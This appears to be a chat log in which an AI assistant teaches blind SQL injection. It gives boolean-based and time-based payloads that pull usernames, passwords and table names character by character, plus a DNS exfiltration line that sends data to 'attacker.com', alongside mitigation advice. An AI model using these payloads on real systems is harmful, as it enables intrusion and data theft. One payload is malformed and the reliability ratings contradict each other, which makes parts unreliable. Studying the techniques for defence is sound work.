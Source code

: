 

# Inferential SQL Injection (Blind SQLi)

Inferential SQL Injection, also known as Blind SQLi, is a type of attack where the attacker can't see the direct results of their injection but can infer information by observing the application's behavior.

## Key Characteristics

1. **No direct output**: Unlike classic SQLi, there's no visible database output
2. **Boolean-based**: Inference through true/false responses
3. **Time-based**: Inference through response delays

## Common Attack Techniques

### Boolean-Based Blind SQLi
```sql
' AND 1=1 -- 
' AND 1=2 -- 
```

### Time-Based Blind SQLi
```sql
'; IF (1=1) WAITFOR DELAY '0:0:5' -- 
'; IF (1=2) WAITFOR DELAY '0:0:5' -- 
```

## Detection Methods

1. Observe differences in responses to true/false conditions
2. Measure response times for time-based payloads
3. Look for changes in HTTP status codes or error messages

## Exploitation Process

1. Identify injectable parameters
2. Determine backend database type
3. Craft conditional queries to extract data bit by bit:
continue from exploitation process point number 3


## Exploitation Process (continued)

3. **Craft conditional queries to extract data bit by bit**:
   - For Boolean-based: Use logical conditions to infer data character by character
     ```sql
     ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a' -- 
     ```
   - For Time-based: Use delays to confirm character matches
     ```sql
     '; IF (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a') WAITFOR DELAY '0:0:5' -- 
     ```

4. **Systematically extract information**:
   - Database version
   - Table names
   - Column names
   - Actual data records

5. **Automate the process**:
   - Use tools like SQLmap for efficient exploitation
   - Script custom attacks for specific scenarios

## Example Boolean-Based Attack Pattern

```sql
' AND (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 -- 
```

## Example Time-Based Attack Pattern

```sql
'; IF (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 WAITFOR DELAY '0:0:5' -- 
```

## Mitigation Strategies

1. **Use prepared statements with parameterized queries**
2. **Implement proper input validation**
3. **Apply principle of least privilege for database accounts**
4. **Configure proper error handling** (don't reveal database errors)
5. **Use Web Application Firewalls (WAFs)** to detect and block injection attempts

## Advanced Techniques

- Combine Boolean and Time-based approaches for reliability
- Use bit-shifting techniques for faster data extraction
- Exploit DNS exfiltration in restricted environments:
  ```sql
  '; DECLARE @data VARCHAR(1024); SELECT @data = (SELECT TOP 1 username FROM users); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- 
```
Remember that Blind SQLi attacks can be time-consuming but are often successful against vulnerable applications that don't properly sanitize input.

Explain TIme based and Boolean Based more thorougly

 # Inferential SQL Injection (Blind SQLi): Time-Based and Boolean-Based

## Time-Based Blind SQL Injection

Time-based blind SQL injection is a technique where the attacker infers information by observing timing differences in the database responses.

### How it works:
1. The attacker injects SQL commands that cause the database to pause for a specified time if a condition is true
2. The application's response time indicates whether the condition was true or false
3. By measuring response times, the attacker can extract data bit by bit

### Example:
```sql
SELECT * FROM users WHERE username = 'admin' AND IF(1=1,SLEEP(5),0)--
```
- If the condition (1=1) is true, the database sleeps for 5 seconds before responding
- If false, it responds immediately

### Characteristics:
- Relies on database functions like `SLEEP()`, `WAITFOR DELAY`, or heavy queries
- Works even when no visible output differences exist
- Very slow but reliable method
- Often used when other blind techniques fail

## Boolean-Based Blind SQL Injection

Boolean-based blind SQL injection relies on observing differences in application behavior based on true/false conditions in injected queries.

### How it works:
1. The attacker crafts queries that return different responses based on boolean conditions
2. The application's behavior (error messages, content changes, HTTP status codes) reveals whether the condition was true or false
3. By systematically testing conditions, the attacker can reconstruct data

### Example:
```sql
SELECT * FROM products WHERE id = 1 AND SUBSTRING((SELECT password FROM users WHERE username = 'admin'), 1, 1) = 'a'
```
- If the first character of admin's password is 'a', the query returns product details
- If not, it might return an empty result or error page

### Characteristics:
- Faster than time-based but requires observable differences in responses
- Often uses string comparison functions (SUBSTRING, LIKE)
- Relies on inference from subtle application behavior changes
- Commonly used when errors are suppressed but application behavior differs

## Key Differences:

| Aspect            | Time-Based                          | Boolean-Based                     |
|-------------------|-------------------------------------|------------------------------------|
| Detection Method  | Measures response time              | Observes behavioral differences    |
| Speed             | Very slow                           | Relatively faster                  |
| Reliability       | High (timing is unambiguous
complete the reliabilty in table key differences

 Certainly! Below is a completed table outlining the key differences between **Inferential SQL Injection (Blind SQLi)** and other types of SQL Injection, with a focus on **reliability**:

| **Feature**            | **Inferential (Blind) SQLi**                          | **Classic (Error-Based/Union-Based) SQLi**          | **Boolean-Based Blind SQLi**                       | **Time-Based Blind SQLi**                          |
|-------------------------|------------------------------------------------------|----------------------------------------------------|---------------------------------------------------|---------------------------------------------------|
| **Reliability**         | Moderate to High (depends on inference accuracy)     | High (direct data retrieval)                       | Moderate (relies on true/false responses)         | Low to Moderate (affected by network delays)      |
| **Detection Method**    | Observing behavioral changes in responses            | Direct error messages or UNION-based exploitation  | Boolean conditions (true/false responses)         | Delays in response time                           |
| **Data Extraction Speed**| Slow (requires many requests for inference)          | Fast (immediate data leakage via errors/unions)    | Slower than classic but faster than time-based    | Very slow (requires timing delays per request)    |
| **Stealthiness**        | High (no direct errors, harder to detect)           | Low (errors may trigger WAFs/logs)                 | Moderate                                          | High